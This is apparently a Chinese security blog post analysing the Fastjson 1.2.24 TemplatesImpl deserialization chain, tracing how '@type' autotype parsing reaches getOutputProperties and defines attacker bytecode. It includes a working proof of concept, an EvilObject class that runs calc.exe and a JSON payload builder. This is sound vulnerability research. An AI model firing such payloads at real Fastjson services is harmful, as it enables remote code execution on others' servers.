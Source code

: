+++
title = "Fastjson 1.2.24 TemplatesImpl利用链"
publishDate = 2021-04-12T00:00:00+08:00
tags = ["fastjson", "java"]
draft = false
+++

Fastjson 是 alibaba 的一款开源 JSON 解析库，可以将 Java 对象和 JSON 字符串相互转化，并提供了 autotype 机制让使用者可以解析任意 Java 对象，导致一些存在利用点的类被用来进行反序列化攻击。
<!--more-->


## TemplatesImpl 利用链 {#templatesimpl-利用链}

这个类存在利用点的方法是 getTransletInstance，关键的代码如下：

```java
if (_name == null) return null;

if (_class == null) defineTransletClasses();

// The translet needs to keep a reference to all its auxiliary
// class to prevent the GC from collecting them
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
...
```

首先是 `_name` 变量不能为空，不然直接返回 null。

这里的 `_class` 数组用来保存辅助类，避免垃圾收集器将它们销毁，并通过 newInstance 方法将主类初始化赋值给 translet 变量。前面判断当 `_class` 数组为空时会执行
defineTransletClasses 方法，我们跟进分析一下。

{{< figure src="/ox-hugo/2021-04-11_13-55-39_screenshot.png" >}}

这个方法主要是将 `_bytecodes` 的字节码提取出来，并调用 `loader.defineClass` 方法生成各个辅助类的 Class 对象保存到 `_class` 数组中。注意上图的两个红框部分——在创建 loader
时需要调用 `_tfactory` 私有变量中的方法，如果变量是空的话会报错，所以构造 poc 时需要随便设一个初始值；为了将当前的类设为主类使它初始化，需要这个类继承
AbstractTranslet 类。

综上我们可以构造一个 AbstractTranslet 的子类保存到 `_bytecodes` 中，在它的构造方法写入命令，当这个恶意类被初始化时命令就会执行。

```java
public class EvilObject extends AbstractTranslet {
    public EvilObject() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```

为了调用 getTransletInstance 方法，我们需要从 getOutputProperties 方法进入，它是私有变量 `_outputProperties` 的 getter 方法，会在 Fastjson 反序列化的过程中执行。调用栈如下：

{{< figure src="/ox-hugo/2021-04-11_15-01-58_screenshot.png" >}}


## Fastjson 解析过程 {#fastjson-解析过程}

通过下面的示例代码，构造恶意 TemplatesImpl 类的 JSON 字符串，调用 JSON#parse 方法进行反序列化：

```java
public class TemplatesImplPoc {
    public static String getBytecodes(String classPath) throws IOException {
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        Files.copy(Paths.get(classPath), out);
        return Base64.getEncoder().encodeToString(out.toByteArray());
    }

    public static void main(String[] args) throws Exception {
        final String evilClassPath = System.getProperty("user.dir") + "\\target\\classes\\EvilObject.class";
        String evilCode = getBytecodes(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String poc = "{\"@type\":\"" + NASTY_CLASS + "\",\"_bytecodes\":[\"" + evilCode + "\"],'_name':'a.b','_tfactory':{},\"_outputProperties\":{}}";
        JSON.parse(poc, Feature.SupportNonPublicField);
    }
}
```

首先编译恶意类得到 class 文件，读取文件内容并且 base64 编码后写到 `_bytecodes` 数组中，
`@type` 指定反序列化 json 字符串的目标类型。然后初始化了一些属性，这些属性的作用在前面有解释，由于要设置私有属性，反序列化时需要开启 SupportNonPublicField 选项才能利用成功。

一直跟进到 DefaultJSONParser#parseObject 方法，创建 DefaultJSONParser 对象时初始化了
ParserConfig、JSONScanner 等重要类的实例。

{{< figure src="/ox-hugo/2021-04-11_23-57-31_screenshot.png" >}}

Fastjson 1.2.24 还没有引入 checkAutotype 安全机制，黑名单中只要两个线程类。

识别到 `@type` 关键字后，会从值中读取类名并获取 Class 对象，然后调用
ParserConfig#getDeserializer 方法获取解析器。

{{< figure src="/ox-hugo/2021-04-12_00-09-51_screenshot.png" >}}

在 getDeserializer 方法中对类名进行一些检查，看看是否在 denyList 中，或者是不是一些特殊的类。

{{< figure src="/ox-hugo/2021-04-12_00-15-10_screenshot.png" >}}

如果一直找不到解析器，就会执行 createJavaBeanDeserializer 方法创建。跟进到
JavaBeanInfo#build 方法：

{{< figure src="/ox-hugo/2021-04-12_01-11-59_screenshot.png" >}}

通过反射获取 TemplatesImpl 类的公共属性、方法和构造器，然后遍历公共方法将 setter 和对应的属性信息添加到 fieldList 中。

{{< figure src="/ox-hugo/2021-04-12_01-33-44_screenshot.png" >}}

在方法最后又对 methods 进行了一次遍历，这次将关键的 getOutputProperties 方法添加到
fieldList 中。

{{< figure src="/ox-hugo/2021-04-12_01-42-44_screenshot.png" >}}

可以看到方法需要满足一些条件，首先是 if 语句中条件：

```java
// 1.方法名长度大于4
methodName.length() >= 4 &&
// 2.不能是静态方法
!Modifier.isStatic(method.getModifiers()) &&
// 3.以get开头
methodName.startsWith("get") &&
// 4.第四个字符是大写
Character.isUpperCase(methodName.charAt(3)) &&
// 5.不能有参数
method.getParameterTypes().length == 0 &&
// 6.返回值继承于Collection||Map||AtomicBoolean||AtomicInteger||AtomicLong
(Collection.class.isAssignableFrom(method.getReturnType()) ||
 Map.class.isAssignableFrom(method.getReturnType()) ||
 AtomicBoolean.class == method.getReturnType() ||
 AtomicInteger.class == method.getReturnType() ||
 AtomicLong.class == method.getReturnType())
```

然后是属性不能在 fieldList 中，也就是刚刚添加 setter 时没有该属性的 setter。

最后返回解析器并执行它的 deserialze 方法，解析器的 sortedFieldDeserializers 属性封装了 getOutputProperties 方法。

{{< figure src="/ox-hugo/2021-04-12_03-12-20_screenshot.png" >}}

依次处理完 bytecodes、name 和 tfactory 三个属性后开始处理 outputProperties，我们跟进到 JavaBeanDeserializer#parseField 方法，该方法获取属性的解析器对其进行处理。

{{< figure src="/ox-hugo/2021-04-12_02-57-52_screenshot.png" >}}

从上图看到通过 smartMatch 方法获取 outputProperties 属性的解析器，但是参数前面是带有下划线的(之前三个属性也是)。不过 smartMatch 方法会将参数中的 `-` 和 `_` 忽略：

{{< figure src="/ox-hugo/2021-04-12_03-02-20_screenshot.png" >}}

然后跟进到 FieldDeserializer#setValue 方法，在为参数(outputProperties)赋值时从
fieldInfo 获取对应的 method 并调用 invoke 方法执行。

{{< figure src="/ox-hugo/2021-04-12_03-18-34_screenshot.png" >}}

就这样 Fastjson 的反序列化过程和 TemplatesImpl 的利用链成功适配，导致命令执行。

我们再回过头看看 bytecodes 参数的解析过程，Fastjson 根据属性的类型(字节数组)获取对应的解析器 ObjectArrayCodec，读取其内容时调用 JSONScanner#bytesValue 方法进行 base64
解码：

{{< figure src="/ox-hugo/2021-04-12_15-04-21_screenshot.png" >}}

```java
public byte[] bytesValue() {
    return IOUtils.decodeBase64(this.text, this.np + 1, this.sp);
}
```

所以 poc 中 bytecodes 的值要进行编码处理。


## 总结 {#总结}

Fastjson 1.2.24 中 autotype 是默认开启的，而且没有 checkAutotype 方法，所以攻击难度相对较低，在 1.2.25 后基本是针对 checkAutotype 的各种绕过了。但
TemplatesImpl 利用链中需要设置一些私有属性，需要 Fastjson 开启
SupportNonPublicField 选项，而这个选项是在 1.2.22 版本引入的。

Fastjson 还提供了几个 parseObject 方法来解析 JSON 字符串，不过最后和本文的示例一样都会执行到 DefaultJSONParser#parse，不影响 TemplatesImpl 利用链。

Fastjson 解析 JSON 字符串时，会调用反序列化对象的公共 setter 和构造函数，还有符合一定条件的 getter，TemplatesImpl 利用链就是用到了 getter 方法中的漏洞。
